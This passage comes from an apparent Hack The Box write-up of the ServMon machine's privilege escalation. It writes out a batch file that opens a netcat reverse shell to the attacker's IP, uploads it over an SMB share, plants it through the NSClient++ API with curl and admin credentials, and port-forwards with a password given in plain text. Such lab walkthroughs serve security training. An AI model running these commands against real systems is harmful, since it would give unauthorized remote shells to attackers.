 ```
Success load Scheduler
```
Next, we need to upload `nc.exe` and an `evil.bat` that contains:
```
@echo off
c:\temp\nc.exe 10.10.14.64 443 -e cmd.exe
```
Prepare both files on kali and upload them easily with impacket's `smbserver`:
```
kali@kali:~/htb/boxes/servmon$ ls smb
evil.bat  nc.exe
kali@kali:~/htb/boxes/servmon$ sudo smbserver.py share smb -smb2support
[sudo] password for kali: 
Impacket v0.9.21.dev1+20200225.153700.afe746d2 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
```
nadine@SERVMON c:\Temp>copy \\10.10.14.64\share\nc.exe .
        1 file(s) copied.

nadine@SERVMON c:\Temp>copy \\10.10.14.64\share\evil.bat .
        1 file(s) copied.
```
We got our files uploaded, now let's load them on the `NSClient++` server again using the API (note: do this in `c:\temp`):
```
curl -s -k -u admin:ew2x6SsGTxjRwXOT -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary @evil.bat
```
```
nadine@SERVMON c:\Temp>curl -s -k -u admin:ew2x6SsGTxjRwXOT -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-bin
ary @evil.bat
Added evil as scripts\evil.bat
```
Now we need to add running our `evil.bat` script to the scheduler on `NSClient++`, now over here I hit a snag because I couldn't find the API for this... to get around that problem, we get back to port forwarding:
```
sshpass -p 'L1k3B1gBut7s@W0rk' ssh -N -L 4444:127.0.0.1:8443 nadine@servmon.htb
```
This sets up our local port `4444` to be forwarded to `127.0.0.1:8443` at `servmon.htb`, which means we can access `NSClient++` as a 'local' user on our kali at `https://localhost:4444`:
<picture>
  
  
Things are painfully slow at this stage and you might need to redo the entire privesc process repeatedly. For reference, these are the general steps:
